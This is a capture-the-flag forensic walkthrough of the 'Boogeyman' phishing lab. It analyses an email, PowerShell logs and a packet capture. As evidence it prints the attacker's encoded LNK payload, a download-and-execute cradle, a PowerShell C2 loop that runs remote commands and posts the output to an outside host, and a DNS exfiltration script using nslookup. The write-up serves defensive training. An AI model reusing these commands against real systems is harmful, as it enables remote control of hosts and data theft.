







*A new threat actor emerges from the wild using the name Boogeyman. Are you afraid of the Boogeyman?*

**Difficulty:** Medium

### Artifacts & Tools

We are provided with the following artifacts for the investigation of an attack by an emerging threat group:

- Copy of the phishing email (dump.eml)
- Powershell Logs from Julianne's workstation (powershell.json)
- Packet capture from the same workstation (capture.pcapng)

The following tools will help us analyse the artifacts and uncover the TTPs used in the attack:

- Thunderbird - a free and open-source cross-platform email client.
- [LNKParse3](https://github.com/Matmaus/LnkParse3) - a python package for forensics of a binary file with LNK extension.
- Wireshark - GUI-based packet analyser.
- Tshark - CLI-based Wireshark. 
- jq - a lightweight and flexible command-line JSON processor.

## Email Analysis - Look at the headers!

Julianne works as a finance employee at Quick Logistics LLC and received a malicious phishing email. The security team flagged execution of an attachment on the email and were notified by other members of the finance department of phishing attempts. 

Latest trends revealed the initial TTP is attributed to a new threat group named Boogeyman, who target the logistics sector.

We will start with **dump.eml** to analyse the headers and rebuild the attachment of the phishing email.

#### Questions

**What is the email address used to send the phishing email?**

Opening **dump.eml** in Thunderbird will reveal the email address of the sender and receiver.



`agriffin@bpakcaging.xyz`

---

**What is the email address of the victim?**

`julianne.westcott@hotmail.com`

---

**What is the name of the third-party mail relay service used by the attacker based on the DKIM-Signature and List-Unsubscribe headers?**

To view these headers we need to switch to the "Message Source" view. In Thunderbird, with either the top nav bar: `View > Message Source` or `Ctrl + U` . 





`Ctrl + F` is helpful to search for these headers. The third-party mail relay dervice refers to **elasticemail** as the first name listed is the domain of the sender's email address.

---

**What is the name of the file inside the encrypted attachment?**

From Thunderbird we can save the attachment **Invoice.zip**, which is password protected. Refer to the next question before proceeding with this one. 

Once the password is obtained, **Invoice.zip** can be (extracted/unzipped)? by entering this password when prompted with the `unzip` command.

ubuntu@tryhackme:~/Desktop/artefacts$ `unzip Invoice.zip`

```
Archive:  Invoice.zip
[Invoice.zip] Invoice_20230103.lnk password: 
  inflating: Invoice_20230103.lnk    
```

ubuntu@tryhackme:~/Desktop/artefacts$ `ls`

```
Invoice.zip           capture.pcapng  evtx2json        powershell.json
Invoice_20230103.lnk  dump.eml        powershell.evtx
```

After this, we can see the extracted file **Invoice_20230103.lnk**.

---

**What is the password of the encrypted attachment?**

We can find this in the email body contents.

```
Hi Julianne,

I hope you are well.

I just wanted to drop you a quick note to remind you in respect of document #39586972 is due for payment on January 20, 2023.

I would be grateful if you could confirm everything is on track for payment.

For additional information, kindly see the attached document.

You may use this code to view the encrypted file: Invoice2023!

Best regards,
Arthur Griffin
Collections Officer
B Packaging Inc.

E: agriffin@bpackaging.xyz
W: https://bpackaging.xyz
```

*You may use this code to view the encrypted file: **Invoice2023!***

---

**Based on the result of the lnkparse tool, what is the encoded payload found in the Command Line Arguments field?**

We now need to use Inkparse with the command shown below to extract information from the extracted file **Invoice_20230103.lnk**. The output below has been shortened to view the command line arguments more easily. We can see the encrypted string following the **-enc** flag.

ubuntu@tryhackme:~/Desktop/artefacts$ `lnkparse Invoice_20230103.lnk`

```
Windows Shortcut Information:
   Link CLSID: 00021401-0000-0000-C000-000000000046
   Link Flags: HasTargetIDList | HasName | HasRelativePath | HasWorkingDir | HasArguments | HasIconLocation | IsUnicode | HasExpIcon - (16637)
   File Flags:  - (0)
...
...
   DATA
      Description: Invoice Jan 2023
      Relative path: ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
      Working directory: C:
      Command line arguments: -nop -windowstyle hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==
...
...
```

## Endpoint Security - Are you sure that's an invoice?

Decoding the base64 payload reveals an HTTP request to `http://files.bpakcaging.xyz/update`. 

`iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')`

We will analyze the PowerShell logs now. Since the log is formatted in JSON, we will use the CLI tool `jq` to parse it and are provided with a cheatsheet.

---
#### Questions

**What are the domains used by the attacker for file hosting and C2? Provide the domains in alphabetical order. (e.g. a.domain.com,b.domain.com)**

The "EventID": 4104 powershell log entries contain a field called "ScriptBlockText". I looked at all the unique values for this field and saw requests to two domains: `cdn.bpakcaging.xyz` and `files.bpakcaging.xyz`. The second domain matching what we found earlier in the encoded payload.

ubuntu@tryhackme:~/Desktop/artefacts$ `cat powershell.json | jq '.ScriptBlockText' | sort | uniq`

```
"$s='cdn.bpakcaging.xyz:8080';$i='8cce49b0-b86459bb-27fe2489';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/8cce49b0 -Headers @{\"X-38d2-8f49\"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/b86459bb -Headers @{\"X-38d2-8f49\"=$i}).Content;if ($c -ne 'None') {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/27fe2489 -Method POST -Headers @{\"X-38d2-8f49\"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}\n"
```

```
"iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')"
```

---

**What is the name of the enumeration tool downloaded by the attacker?**

Using the same jq output we can see a request for a tool on Github:

`"iex(new-object net.webclient).downloadstring('https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Seatbelt.ps1');pwd"`

And another log of the attacker attempting to use this tool:

`"Seatbelt.exe -group=user;pwd"`

Following the GitHub link, we can read the description for this tool, "Seatbelt":

*"Seatbelt is a C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives."*

---

**What is the file accessed by the attacker using the downloaded `sq3.exe` binary? Provide the full file path with escaped backslashes.**

Looking still at the unique "ScriptBlockText" values, we see the **sq3.exe** binary being used with a file called **plum.sqlite**. 

```
".\\Music\\sq3.exe AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite \"SELECT * from NOTE limit 100\";pwd"
```

This only lists a relative path, but other log entries show the current user context as **C:\\Users\\j.westcott\\**. Knowing AppData is expected to be in a specific user directory, we can construct the full path as: 

**C:\\Users\\j.westcott\\AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite**.

---

**What is the software that uses the file in Q3?**

Based on the path of the last question, this seems to be referring to Microsoft Sticky Notes. Research confirms this and that plum.sqlite is exclusively used for Microsoft Sticky Notes.

---

**What is the name of the exfiltrated file?**

Looking at these "ScriptBlockText" values, we can see the file being exfiltrated.

```
"$file='C:\\Users\\j.westcott\\Documents\\protected_data.kdbx'; 
$destination = \"167.71.211.113\"; 
$bytes = [System.IO.File]::ReadAllBytes($file);;pwd"

"$hex = ($bytes|ForEach-Object ToString X2) -join '';;pwd"

"$split = $hex -split '(\\S{50})'; 
ForEach ($line in $split) { 
nslookup -q=A \"$line.bpakcaging.xyz\" $destination;} echo \"Done\";;pwd"
```

The ForEach look in the last section of this is using DNS lookups to exfiltrate small parts of the file at a time, sent as the subdomain using the `$line` variable as shown here:

`"$line.bpakcaging.xyz\"`

Looking back at the relevant variables containing the data being exfiltrated, `$split`, `$hex`, `$bytes`, `$file`, we can see the exfiltrated file is **protected_data.kdbx**.

---

**What type of file uses the .kdbx file extension?**

Googling this reveals this is a *"highly encrypted database file used by the popular **KeePass** password manager and its various forks (like KeePassXC) to securely store sensitive user data, such as usernames, passwords, and notes."*

---

**What is the encoding used during the exfiltration attempt of the sensitive file?**

This line in the logs is encoding the file in hex:

`"$hex = ($bytes|ForEach-Object ToString X2) -join '';;pwd"`

---

**What is the tool used for exfiltration?**

The actual exfiltration takes place using **nslookup** to exfiltrate over DNS queries.

`nslookup -q=A \"$line.bpakcaging.xyz\" $destination;} echo \"Done\";;pwd"`

## Network Traffic Analysis - They got us. Call the bank immediately!

Based on the PowerShell logs investigation, we have seen the full impact of the attack:

- The threat actor was able to read and exfiltrate two potentially sensitive files.
- The domains and ports used for the network activity were discovered, including the tool used by the threat actor for exfiltration.

Investigation Guide  

Finally, we can complete the investigation by understanding the network traffic caused by the attack:

- Utilise the domains and ports discovered from the previous task.
- All commands executed by the attacker and all command outputs were logged and stored in the packet capture.
- Follow the streams of the notable commands discovered from PowerShell logs.
- Based on the PowerShell logs, we can retrieve the contents of the exfiltrated data by understanding how it was encoded and extracted.

#### Questions

**What software is used by the attacker to host its presumed file/payload server?**

This returns requests for "sb.exe", "sq3.exe" and "update". Following the HTTP stream shows in the response "Server: SimpleHTTP/0.6 Python/3.10.7", **python** being the answer to this question.

`http.host == "files.bpakcaging.xyz"`

```
GET /sq3.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.18362.145
Host: files.bpakcaging.xyz
Connection: Keep-Alive

HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.10.7
Date: Fri, 13 Jan 2023 17:23:38 GMT
Content-type: application/x-msdos-program
Content-Length: 1123840
Last-Modified: Wed, 28 Dec 2022 14:28:28 GMT
```

---

**What HTTP method is used by the C2 for the output of the commands executed by the attacker?**

The following powershell logs show evidence of C2 activity. The Invoke-WebRequests in variables `$v` and `$c` receive instructions from the attacker. The last "Invoke-WebRequest", in variable `$t` is returning results of the attackers commands after they have been received and executed, using **POST**. `$r` is sent in the POST request, which contains the command output, identifiable by its use of `iex` to execute the received commands.

```
"$s='cdn.bpakcaging.xyz:8080';
$i='8cce49b0-b86459bb-27fe2489';
$p='http://';
$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/8cce49b0 -Headers @{\"X-38d2-8f49\"=$i};
while ($true){
$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/b86459bb -Headers @{\"X-38d2-8f49\"=$i}).Content;
if ($c -ne 'None') {
$r=iex $c -ErrorAction Stop -ErrorVariable e;
$r=Out-String -InputObject $r;
$t=Invoke-WebRequest -Uri $p$s/27fe2489 -Method POST -Headers @{\"X-38d2-8f49\"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}\n"
```

The following Wireshark filter will show this traffic:

`(http.host ~ "cdn.bpakcaging.xyz") && (http.request.method == "POST")`

---

**What is the protocol used during the exfiltration activity?**

nslookup is used to perform exfiltration here, which performs **DNS** queries.

---

**What is the password of the exfiltrated file?**

Based on the hint given, this is related to the sqllite file access by sq3.exe, which we found out earlier is "plum.sqlite". I used the below command to find the timestamp of this log entry:

ubuntu@tryhackme:~/Desktop/artefacts$ `cat powershell.json | jq | grep -B12 "plum.sqlite"`

```
{
  "Timestamp": "2023-01-13 17:25:38.759011Z",
  "Channel": "Microsoft-Windows-PowerShell/Operational",
  "Provider": "Microsoft-Windows-PowerShell",
  "Hostname": "QL-WKSTN-5693",
  "SID": "S-1-5-21-3258834958-2458682484-3394967329-1002",
  "EventID": 4104,
  "RecordID": 724,
  "Level": "Verbose",
  "Descr": "Creating Scriptblock text (<MessageNumber> of <MessageTotal>)",
  "MessageNumber": "1",
  "MessageTotal": "1",
  "ScriptBlockText": ".\\Music\\sq3.exe AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite \"SELECT * from NOTE limit 100\";pwd",
```

Using the time format used in Wireshark I got the filter below and found the packet and stream containing this command.

`http.date == "Fri, 13 Jan 2023 17:25:38 GMT"`

```
GET /b86459bb HTTP/1.1
X-38d2-8f49: 8cce49b0-b86459bb-27fe2489
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.18362.145
Host: cdn.bpakcaging.xyz:8080
Connection: Keep-Alive

HTTP/1.0 200 OK
Server: Apache/2.4.1 
Date: Fri, 13 Jan 2023 17:25:38 GMT
Content-type: text/javascript; charset=UTF-8
Access-Control-Allow-Origin: *

.\Music\sq3.exe AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite "SELECT * from NOTE limit 100";pwd
```

This packet shows it takes place over the C2 channel discovered previously:

`Request URI: hhttp://cdn.bpakcaging.xyz:8080/b86459bb/b86459bb`

So we can expect the response to this instruction to be returned in a POST request. A few packets later, by time, there is a POST to `http://cdn.bpakcaging.xyz:8080` containing encoded data.

```
POST /27fe2489 HTTP/1.1
X-38d2-8f49: 8cce49b0-b86459bb-27fe2489
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.18362.145
Content-Type: application/x-www-form-urlencoded
Host: cdn.bpakcaging.xyz:8080
Content-Length: 1522
Connection: Keep-Alive

92 105 100 61 56 54 56 49 53 48 98 100 45 97 53 54 52 45 52 50 51 98 45 57 50 53 54 45 55 48 100 51 55 56 49 55 57 52 98 49 32 77 97 115 116 101 114 32 80 97 115 115 119 111 114 100 13 10 92 105 100 61 97 100 56 98 53 50 102 48 45 101 49 98 98 45 52 48 102 54 45 98 98 102 57 45 52 55 97 53 51 102 57 49 56 48 97 98 32 37 112 57 94 51 33 108 76 94 77 122 52 55 69 50 71 97 84 94 121 124 77 97 110 97 103 101 100 80 111 115 105 116 105 111 110 61 68 101 118 105 99 101 73 100 58 92 92 63 92 68 73 83 80 76 65 89 35 68 101 102 97 117 108 116 95 77 111 110 105 116 111 114 35 49 38 51 49 99 53 101 99 100 52 38 48 38 85 73 68 50 53 54 35 123 101 54 102 48 55 98 53 102 45 101 101 57 55 45 52 97 57 48 45 98 48 55 54 45 51 51 102 53 55 98 102 52 101 97 97 55 125 59 80 111 115 105 116 105 111 110 61 49 49 48 54 44 52 51 59 83 105 122 101 61 51 50 48 44 51 50 48 124 49 124 48 124 124 89 101 108 108 111 119 124 48 124 124 124 124 124 124 48 124 124 56 99 97 50 50 99 48 101 45 98 97 53 101 45 52 57 57 97 45 97 56 54 99 45 55 52 55 51 97 53 51 100 99 54 100 101 124 55 52 102 48 56 55 50 52 45 99 99 99 57 45 52 99 101 54 45 57 52 101 55 45 56 99 57 57 101 54 99 100 52 50 99 54 124 54 51 56 48 57 50 50 52 55 51 57 55 49 57 57 53 56 57 124 124 54 51 56 48 57 50 50 52 55 53 49 54 49 48 55 48 55 57 13 10 13 10 80 97 116 104 32 32 32 32 32 32 32 32 32 32 32 32 32 32 32 13 10 45 45 45 45 32 32 32 32 32 32 32 32 32 32 32 32 32 32 32 13 10 67 58 92 85 115 101 114 115 92 106 46 119 101 115 116 99 111 116 116 13 10 13 10 13 10
```

Using "From Decimal" in CyberChef reveals the below output containing the password:

```
\id=868150bd-a564-423b-9256-70d3781794b1 Master Password
\id=ad8b52f0-e1bb-40f6-bbf9-47a53f9180ab %p9^3!lL^Mz47E2GaT^y|ManagedPosition=DeviceId:\\?\DISPLAY#Default_Monitor#1&31c5ecd4&0&UID256#{e6f07b5f-ee97-4a90-b076-33f57bf4eaa7};Position=1106,43;Size=320,320|1|0||Yellow|0||||||0||8ca22c0e-ba5e-499a-a86c-7473a53dc6de|74f08724-ccc9-4ce6-94e7-8c99e6cd42c6|638092247397199589||638092247516107079

Path               
----               
C:\Users\j.westcott
```

---

**What is the credit card number stored inside the exfiltrated file?**

For this we have to concatenate all the subdomains queried over DNS. I started by filtering for `dns` in Wireshark and tried to narrow down the results to get just one packets for each segment of the file send over DNS. I started this process by adding `ip.src == 167.71.211.113` to the filter, seeing DNS traffic from that IP. This left me with the below packets:



I wanted to get a single packet for each subdomain and looked into the packet details of the other types to exclude them in my filter. I did this by finding a unique attribute of the unwanted packets and using the "Right Click" > "Apply as Filter" > "And not selected" option. I used the resulting filter from Wireshark with TShark with the below command, resulting in the format shown below:

ubuntu@tryhackme:~/Desktop/artefacts$ `tshark -r capture.pcapng -Y '((((dns) && (ip.src == 167.71.211.113)) && !(dns.qry.name == "113.211.71.167.in-addr.arpa")) && !(dns.id == 0x0003)) && !(dns.id == 0x0004)'

```
47773 1797.431356 167.71.211.113 ? 10.10.182.255 DNS 163 Standard query response 0x0002 A 03D9A29A67FB4BB50100030002100031C1F2E6BF714350BE58.bpakcaging.xyz.eu-west-1.ec2-utilities.amazonaws.com
47783 1798.656454 167.71.211.113 ? 10.10.182.255 DNS 163 Standard query response 0x0002 A 05216AFC5AFF03040001000000042000AF4DE7A467FADFBFEB.bpakcaging.xyz.eu-west-1.ec2-utilities.amazonaws.com
47793 1799.935410 167.71.211.113 ? 10.10.182.255 DNS 163 Standard query response 0x0002 A EB78AE194B03926333E0CC968727A1FF8CC4CD5151FAAC0520.bpakcaging.xyz.eu-west-1.ec2-utilities.amazonaws.com
...
...
...
```

Piping this output into `awk` will split at each space character, the 13th being the one I want to isolate. 

13th space separated segment of each line:

`EB78AE194B03926333E0CC968727A1FF8CC4CD5151FAAC0520.bpakcaging.xyz.eu-west-1.ec2-utilities.amazonaws.com`

We can use `split` like this to make an array of that segment, separated on the `.`'s. Resulting in a new array that I called "domain". We want to print the first entry of this. (awk starts at 1 instead of 0).

`| awk '{split($13,domain,"."); print domain[1]}`
 
Array created with "split":

`[EB78AE194B03926333E0CC968727A1FF8CC4CD5151FAAC0520, bpakcaging, xyz, eu-west-1,ec2-utilities, amazonaws, com]`

Finally, I piped this output to remove the new lines.

`| tr -d '\n'`

The final command is below:

ubuntu@tryhackme:~/Desktop/artefacts$ `tshark -r capture.pcapng -Y '((((dns) && (ip.src == 167.71.211.113)) && !(dns.qry.name == "113.211.71.167.in-addr.arpa")) && !(dns.id == 0x0003)) && !(dns.id == 0x0004)' | awk '{split($13,domain,"."); print domain[1]} | tr -d '\n'`



Once this output looks correct, you can pipe it to a .txt file by adding `> hexdump.txt` which we will need to reverse the file back to a binary .kdbx format.

I had to reference another walkthorugh to learn `xxd` is used for converting between hexdumps and binary files. We will use the `-r`, reverse flag to go from hexdump to binary and the `-p` flag, for plaintext, since we do not have the hexdump formatted to include addresses.

`xxd -r -p hexdump.txt > protected_data.kdbx`

The resulting file will default to opening in KeePass2, which will ask us for the master password found in the last question. This reveals the secret data, an entry call "Company Card" in the "Homebanking" group. The details at the bottom of the application after selecting "Company Card" show the value we want listed as "Account Number".





